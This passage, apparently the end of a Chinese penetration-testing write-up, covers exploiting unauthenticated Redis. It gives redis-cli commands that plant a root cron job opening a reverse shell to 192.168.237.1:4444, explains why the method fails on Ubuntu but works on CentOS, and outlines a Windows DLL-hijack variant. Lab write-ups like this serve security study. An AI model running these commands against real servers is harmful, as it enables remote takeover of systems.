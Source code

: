 ```bash
./redis-cli -h 192.168.237.140 -p 6379

# 每分钟反弹一次
set shell "\n* * * * * bash i >& /dev/tcp/192.168.237.1/4444 0>&1\n\n"
config set dir /var/spool/cron/crontabs/
config set dbfilename root
save
```

倒下了，还是没有成功

#### 计划任务为何没有成功反弹shell

写计划任务反弹shell存在系统限制，这个方法只能`Centos`上使用，`Ubuntu上行不通`，原因如下：

1. 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件`/var/spool/cron/crontabs/<username>`权限必须是600也就是`-rw-------`才会执行，否则会报错`(root) INSECURE MODE (mode 0600 expected)`，而Centos的定时任务文件`/var/spool/cron/<username>`权限644也能执行

2. 因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错

由于系统的不同，crontrab定时文件位置也会不同

Centos的定时任务文件在`/var/spool/cron/<username>`

Ubuntu定时任务文件在`/var/spool/cron/crontabs/<username>`

Centos和Ubuntu均存在的（需要root权限）`/etc/crontab` PS：高版本的redis默认启动是`redis`权限，故写这个文件是行不通的


思考：这里windows只写了通过redis写入webshell，没有web服务什么都做不了了吗？windows还可以通过覆盖重要系统dll文件，利用redis的主从功能，写入dbghelp.dll文件，达到在redis执行BGSAVE或者BGREWRITEAOF命令时redis加载dll的目的

参考、致谢：

- [利用Redis Getshell的所有利用方法](https://www.svenbeast.com/post/g2K6Xk3IG/)
- [渗透测试-Redis未授权访问漏洞之ubuntu反弹shell问题 ](https://www.cnblogs.com/websec80/articles/14734623.html)
- [Redis未授权访问漏洞复现](https://www.cnblogs.com/yuzly/p/11663822.html)
- [Redis未授权漏洞复现](https://blog.csdn.net/qq_43531669/article/details/130574785)
- [Redis未授权访问](https://wiki.wgpsec.org/knowledge/web/unauthorized.html)
- [解决ubuntu crontab反弹shell失败的问题](https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/)